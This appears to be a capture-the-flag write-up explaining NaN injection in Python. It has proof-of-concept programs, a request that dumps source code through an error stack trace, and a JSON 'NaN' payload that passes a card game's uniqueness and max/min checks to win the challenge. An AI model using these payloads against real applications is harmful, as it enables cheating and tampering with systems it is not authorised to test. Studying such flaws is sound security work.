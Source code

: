 ## Objective


## Solution

#### NaN concepts 0
- NaN (Not a Number) is a special value representing missing or undefined Python data.

#### NaN concepts 1
- ```float(str)``` can process a string "NaN" without any error
- When addedd or multiplied or some other operation is performed with the ```nan``` it is nan which wins
```python
small = float("NaN")
big = float(999.999)

print(big>small)
```
```output
>False
```
#### NaN concepts 2

```python
boo = float("NaN")
if boo == "NaN":
    print("Got a NaN")
else:
    print("There is no NaN? What is the the value of boo?")
    print(boo)
```
```
>There is no NaN? What is the the value of boo?
>nan
```

#### NaN injection example PoC 1
- The code below is supposed to store 5 unique numbers
- We can enter ```NaN``` 5 times and at the end of the execution the entire list will have 5 ```nan``` values
```python3
def get_unique_numbers():
    unique_numbers = set()

    while len(unique_numbers) < 5:
        try:
            user_input = float(input(f"Enter unique number {len(unique_numbers) + 1}: "))
            if user_input in unique_numbers:
                print("Number already entered. Please enter a unique number.")
            else:
                unique_numbers.add(user_input)
        except ValueError:
            print("Invalid input. Please enter a valid number.")

    return list(unique_numbers)

if __name__ == "__main__":
    unique_numbers_list = get_unique_numbers()
    print("You entered the following unique numbers:", unique_numbers_list)
```
```
Enter unique number 1: 4
Enter unique number 2: 4
Number already entered. Please enter a unique number.
Enter unique number 2: NaN
Enter unique number 3: NaN
Enter unique number 4: NaN
Enter unique number 5: NaN
You entered the following unique numbers: [nan, 4.0, nan, nan, nan]
```

#### NaN injection example PoC 2
- The code below stores 5 numbers and returns the max and the min value
```python
def get_user_inputs():
    numbers = []
    for i in range(5):
        try:
            user_input = float(input(f"Enter number {i + 1}: "))
            numbers.append(user_input)
        except ValueError:
            print("Invalid input. Please enter a valid number.")
            i -= 1  # Decrement the loop counter to re-enter the current input

    return numbers

if __name__ == "__main__":
    user_numbers = get_user_inputs()

    if user_numbers:
        highest_number = max(user_numbers)
        lowest_number = min(user_numbers)

        print("Entered numbers:", user_numbers)
        print("Highest number:", highest_number)
        print("Lowest number:", lowest_number)
```
```
Enter number 1: NaN
Enter number 2: -11
Enter number 3: 0
Enter number 4: 3333
Enter number 5: 44
Entered numbers: [nan, -11.0, 0.0, 3333.0, 44.0]
Highest number: nan
Lowest number: nan
```
#### Dump code via error stacktrace

- Trigger an error that will dump the code
```
{"play":"0x5,6,7,8,9"}
```

#### Vulnerable code analysis
- Inject NaN
- Bypass the unique card check
- ```max()``` and ```min()``` returns ```nan``` is all cases
```python3
# Error in function named play_cards:
....
        for row in reader:
            for n in row:
                n = float(n) #----------> Inject NaN here
                if is_valid_whole_number_choice(n) and n not in [x['num'] for x in player_cards]:
                    player_cards.append({
                        'owner': 'p',
                        'num': n
                    })
            break

        #-----------> Bypass the check here
        if len(player_cards) != 5:
            return jsonify({
                "request": False,
                "data": f"Requires 5 unique values but was given \"{csv_card_choices}\""
            })
....
        
        maxItem = False
        minItem = False

        #-----------> NaN magic here
        if bool(len(all_cards)):
            maxItem = max(all_cards, key=lambda x: x['num'])
            minItem = min(all_cards, key=lambda x: x['num'])

....
```

#### Forge for the win
- Send JSON data as NaN for all the cards number
- We would bypass the unique card check due the the concept 2 above
- 
```json
{"play":"NaN,NaN,NaN,NaN,NaN"}
```
- For every successful response replace the old cookie with the new cookie
- Once the score reached 10 we would get the win success hash in our response
```json
{
   "data":{
      "conduit":{
         "hash":"a2a6c9bcc95608962d98d885e847c08e36908e00048cedf000fd259bd02e6f61",
         "resourceId":"b5187f3e-8cd5-48c3-9796-001f332ea558"
      },
      "maxItem":{
         "num":"NaN",
         "owner":"p"
      },
      "minItem":{
         "num":"NaN",
         "owner":"p"
      },
      "play_message":"Darn, how did I lose that hand!",
      "player_cards":[
         {
            "num":"NaN",
            "owner":"p"
         },
         {
            "num":"NaN",
            "owner":"p"
         },
         {
            "num":"NaN",
            "owner":"p"
         },
         {
            "num":"NaN",
            "owner":"p"
         },
         {
            "num":"NaN",
            "owner":"p"
         }
      ],
      "player_score":0,
      "score_message":"Darn, you win!",
      "shifty_score":0,
      "shiftys_cards":[
         {
            "num":0.0,
            "owner":"s"
         },
         {
            "num":9.0,
            "owner":"s"
         }
      ],
      "win_lose_tie_na":"w"
   },
   "request":true
}
```
